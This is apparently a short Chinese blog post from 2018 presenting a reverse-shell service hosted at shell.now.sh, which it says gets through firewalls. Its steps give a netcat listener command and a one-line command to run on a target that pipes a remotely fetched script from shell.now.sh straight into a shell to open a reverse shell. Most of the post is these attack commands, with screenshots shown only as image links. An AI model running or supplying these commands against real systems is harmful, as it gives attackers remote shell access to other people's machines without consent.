 ```yaml
---
title: reverse-shell
date: 2018-02-03 14:26:37
tags:
	- tools
categories:
	- tools

---
```


![](https://ws1.sinaimg.cn/large/006Y6f53gy1fo3avdpsuqj30rl0efmx7.jpg)
<!--more-->

### 前言

将`Shell`作为服务反向 - `https://shell.now.sh`

在大多数类`Unix`系统上都可以使用的反向`shell`。

检测目标上的可用软件并运行适当的有效负载。

因为这是一个反向连接，所以它可以穿过防火墙并连接到互联网。



`github`项目地址：
[https://github.com/lukechilds/reverse-shell](https://github.com/lukechilds/reverse-shell)




### 步骤

#### 1、监听端口
    nc -lvvp 6666

![](https://ws1.sinaimg.cn/large/006Y6f53gy1fo3asm9s45j30rl0efweg.jpg)

#### 2、在目标上执行反向shell


    curl https://shell.now.sh/主机名或者ip:6666 | SH

![](https://ws1.sinaimg.cn/large/006Y6f53gy1fo3aurqh80j30ho04gq2v.jpg)



#### 3、得到shell

![](https://ws1.sinaimg.cn/large/006Y6f53gy1fo3avdpsuqj30rl0efmx7.jpg)


**总结：**

- 学会了反向`shell`




